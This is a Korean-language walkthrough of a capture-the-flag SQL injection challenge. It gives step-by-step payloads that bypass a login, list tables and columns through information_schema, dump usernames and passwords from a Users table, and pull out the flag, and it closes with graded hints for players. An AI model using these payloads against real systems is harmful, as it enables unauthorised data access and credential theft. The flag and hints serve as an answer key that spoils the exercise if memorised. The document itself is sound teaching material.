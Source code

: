 문제를 푸는 사람이 아무 정보도 모르고 시작한다고 가정하면, 아래와 같은 과정을 통해 단계적으로 문제를 해결할 수 있습니다. 이 과정은 SQL Injection의 기본 원리를 이해하고 적용하는 흐름을 따릅니다.

---

### **1. 기본 로그인 시도**
- **행동**: `admin` / `admin`을 입력하고 로그인 시도.
- **결과**: "Invalid credentials!" 메시지가 나옵니다.
- **추론**: 주어진 계정 정보로는 접근할 수 없고, 무언가 다른 방법(취약점)을 사용해야 함을 유추할 수 있습니다.

---

### **2. 간단한 SQL Injection 테스트**
- **행동**: `admin' --`를 입력하여 SQL Injection 취약성을 확인.
  - 페이로드: 
    ```
    admin' --
    ```
- **결과**: 여전히 "Invalid credentials!"가 출력됩니다.
- **추론**: 시스템이 SQL 구문을 처리할 가능성은 있지만, 더 복잡한 페이로드를 사용해야 함을 알 수 있습니다.

---

### **3. 테이블 이름을 알아내기 위한 시도**
- **행동**: UNION 기반 SQL Injection을 시도해 데이터베이스 구조를 탐색.
  - 페이로드:
    ```
    admin' UNION SELECT null, table_name, null FROM information_schema.tables --
    ```
- **결과**: "Tables in the database: Users, Logs"가 출력.
- **추론**: 데이터베이스에 `Users`와 `Logs`라는 두 개의 테이블이 있음을 확인.

---

### **4. `Users` 테이블의 컬럼 확인**
- **행동**: `Users` 테이블의 구조를 알아내기 위해 컬럼 이름 추출 시도.
  - 페이로드:
    ```
    admin' UNION SELECT null, column_name, null FROM information_schema.columns WHERE table_name='Users' --
    ```
- **결과**: "Columns in Users table: id, username, password, flag"가 출력.
- **추론**: `Users` 테이블에 `flag`라는 컬럼이 존재하므로, 여기에 중요한 정보가 있을 가능성이 높음.

---

### **5. `Users` 테이블의 데이터 확인**
- **행동**: `Users` 테이블의 데이터를 추출해 계정 정보를 확인.
  - 페이로드:
    ```
    admin' UNION SELECT username, password, null FROM Users --
    ```
- **결과**: "Account info: admin: admin_password, user1: user1_password"가 출력.
- **추론**: `Users` 테이블에 실제 사용자 정보가 저장되어 있음을 확인. 플래그는 `admin` 계정과 관련이 있을 가능성이 높음.

---

### **6. 플래그 추출**
- **행동**: `admin` 계정의 플래그를 가져오기 위해 조건부 SQL Injection 수행.
  - 페이로드:
    ```
    admin' UNION SELECT null, flag, null FROM Users WHERE username='admin' --
    ```
- **결과**: "Congratulations! Here is your flag: K4{H3llo_sql1}"가 출력.
- **추론**: 최종적으로 플래그를 성공적으로 추출.

---

### **단계별 요약**
1. 간단한 입력으로 SQL Injection 가능 여부 확인 (`admin' --`).
2. `information_schema.tables`를 통해 테이블 이름 확인.
3. `information_schema.columns`를 통해 테이블 구조 확인.
4. 데이터를 직접 추출해 유용한 정보를 탐색.
5. `flag` 컬럼에서 최종적으로 플래그를 추출.

---

### **힌트 제공**
만약 사용자가 초반에 문제를 해결하지 못한다면, 다음과 같은 힌트를 단계적으로 제공할 수 있습니다:
1. "이 시스템은 SQL Injection에 취약할지도 모릅니다. `'`를 입력해 보세요."
2. "데이터베이스 구조를 알아내기 위해 UNION을 사용해 보세요."
3. "Users 테이블 안에 중요한 정보가 있을 겁니다. 컬럼 이름을 확인해 보세요."
4. "플래그는 admin 계정과 관련이 있을 겁니다. 조건을 추가해 보세요." 

이러한 힌트는 사용자의 수준에 따라 조정할 수 있습니다.
